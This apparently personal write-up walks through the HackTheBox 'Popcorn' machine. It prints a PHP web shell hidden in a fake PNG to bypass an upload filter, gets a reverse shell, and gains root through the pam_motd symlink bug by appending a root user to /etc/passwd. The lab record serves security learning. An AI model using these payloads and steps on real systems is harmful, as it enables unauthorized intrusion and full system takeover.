



 
## Reconnaissance

### nmap 


###  Web Service 


### Gobuster 


### Web Service 2

> /test --> phpinfo


> /cgi-bin --> Forbidden 


> /torrent 


> Login page 


> Useful information 

```
Torrent Hoster
```


> Search exploit code by Torrent Hoster 


> Actually, it's hard to understand how to exploit from above decription.
> I start to enumerate torrent page 
> Following the exploit, I access /torrents.php


> It will redirect to /index.php?mode=directory


> I tried to access Upload function but the authorized user is necessary 
> It will redirect to /login if I don't have authorized user


> I tried to register an account then login and access to upload function again.


> I tried to upload a php web shell 


> It fails...


>  Then I tried to upload the torrent which exist in the server one(kali linux)


> Still failed ... 


## Exploit 

> After research and get some hint. 
> I move to kali official site and download another torrent file 


> Upload it.


> It success, and there is another function I can use in the result page


> Here is a screenshots column
> and I can click "Edit this torrent"


> Then another windows will pop up 
> It provides another upload function which accept image file (PNG, jpg, jpeg, gif)


>  I still tried to upload php file first


> Response : "Invalid file"


> Then I tried to upload an image file (jpg)


> The result display as follow


> Then I tried to upload another PNG file (since the file signature for PNG is easier than others)
> Then I modified the PNG content to the following 

```
<?php echo shell_exec($_GET['cmd']); ?>
```
> And modified the file name to test.png.php


> Success to upload 


> Then I tried to access the file location, it will look like follow


> Adding the parameter (cmd) and tried to execute command 
> RCE success.

```
?cmd=id
```


> Next, I tried to create reverse shell.
> I upload webshell and modify the request by following above setting.


> Then access this file.


> Check nc listener


> Check current user 


> Get user flag


## Privilege Escalation 

> Upload linpeas and execute to gathering information
> CVE information for PE


> Cron job settings


> /etc/passwd content


> Some interesting file --> debian.cnf


> SUID files


> SGID files


> So far, I got some information, and I target on using dirtycow to escalate.
> but it failed, and I didn't know the root cause.


> So, I start to check the discussion.
> And I know there is an interesting file in .cache directory

```
motd.loegal-displayed
```


> Research for it. 
> pam_motd (aka the MOTD module) in libpam-modules before 1.1.0-2ubuntu1.1 in PAM on Ubuntu 9.10 and libpam-modules before 1.1.1-2ubuntu5 in PAM on Ubuntu 10.04 LTS allows local users to change the ownership of arbitrary files via a symlink attack on .cache in a user's home directory, related to "user file stamps" and the motd.legal-notice file.

- [(NVD)CVE-2010-0832](https://nvd.nist.gov/vuln/detail/CVE-2010-0832)
- [CVE-2010-0832](https://www.cvedetails.com/cve/CVE-2010-0832/)

> The following description: 

```
it allows local users to change the ownership of arbitrary files via a symlink attack on .cache in a user's home directory, related to "user file stamps" and the motd.legal-notice file.
```

> So, I think the motd.legal-displayed in .cache, I can make arbitrary link to it and I also can get write permission to that file via this link.


> Confirm the os version 
> I think that is the target  ubuntu version 

```
lsb-release -a
```


> Search exploit code 



> I tried to use above 2 exploit scripts --> but both of them are failed
> I checked the shell script content, both of them are tried to create a new ssh directory and key.
> And tried to login with this new ssh key. By this way, the .cache directory with new MOTD file will be created
> Then create another new link(/etc/passwd) to this file.
> With this link, the current user(www-data) will get write permission to /etc/passwd
> So, I can create a new user with root permission.




> In here, I just think why I can't just modify the existing.
> Then I checked the existing one.
> The owner is george


> I think there are 2 reasons I can't finish the attack with this thinking 

1. I don't have ssh login credential for george
2. I can' create link for this file (permission denied)


> I also check the usage of MOTD 

- [How to Show MOTD in Linux](https://linuxhint.com/show-motd-in-linux/)

> MOTD is the abbreviation of “Message Of The Day”
> it is used to display a message when a remote user login to the Linux Operating system using SSH.


> So, I need to create a new ssh key and let me login by www-data.
> I move to /var/www and execute the following command 

```
ssh-keygen -q -t rsa -N '' -C 'pam'
```


```
cp .ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys 
```


> Download the private key file to my host 


> Change the permission 
```
chmod 600 /tmp/id_rsa
```


> Login by SSH but it failed 


> Research for this error.

- [解决SSH no matching host key type found 问题](https://blog.alanwei.com/blog/2022/01/24/ssh-no-matching-host-key-type-found/)


> Using following command, login success.

```
ssh -i /tmp/id_rsa www-data@10.129.230.173 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa
```


> Then get back to /var/www. 
> The .cache directory is created.


> The motd.legal-displayed also created


>  Follow the payload in exploit DB,


>  I deleted origin .cache directory
>  Then I created a link to /etc/passwd

```
rm -rf .cache
ln -s /etc/passwd .cache
```


> Move to ssh login panel
> With following step, create a new user

```
openssl passwd -1 mac 
```

> username and password are 'mac'


> Write into /etc/passwd

```
echo 'mac:$1$kbqHn0/w$nkw.eIajwNOmFl2h2fK3u/:0:0:pwned:/root/bin/bash' >> /etc/passwd
```


> Login with mac

```
su - mac
```


> Check privilege 

```
id
```


> Get root flag




## Reference 

### Writeup 

- [HTB: Popcorn](https://0xdf.gitlab.io/2020/06/23/htb-popcorn.html)
### Torrent Hoster
- [(Exploit DB)Torrent Hoster](https://www.exploit-db.com/exploits/11746)

### Privilege Escalation 

- [Update-Motd Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)
- [(Exploit-DB)motd file tampering PE - 1](https://www.exploit-db.com/exploits/14273)
- [(Exploit-DB)motd file tampering PE - 2](https://www.exploit-db.com/exploits/14339)
- [How to Show MOTD in Linux](https://linuxhint.com/show-motd-in-linux/)
- [Linux motd详解](https://developer.aliyun.com/article/427180)
- [motd(5) ](https://man7.org/linux/man-pages/man5/motd.5.html)
- [MOTD – Privilege Escalation](https://vk9-sec.com/motd-privilege-escalation/)
- [(NVD)CVE-2010-0832](https://nvd.nist.gov/vuln/detail/CVE-2010-0832)
- [CVE-2010-0832](https://www.cvedetails.com/cve/CVE-2010-0832/)

#### DirtyCow

- [(GITHUB)dirtycow](https://github.com/firefart/dirtycow)
- [(EXPLOIT-DB)dirtycow](https://www.exploit-db.com/download/40611)

### SCP command 

- [How to Use SCP Command to Securely Transfer Files](https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/)

### SSH issue 

- [解决SSH no matching host key type found 问题](https://blog.alanwei.com/blog/2022/01/24/ssh-no-matching-host-key-type-found/)

###### tags: `HackTheBox`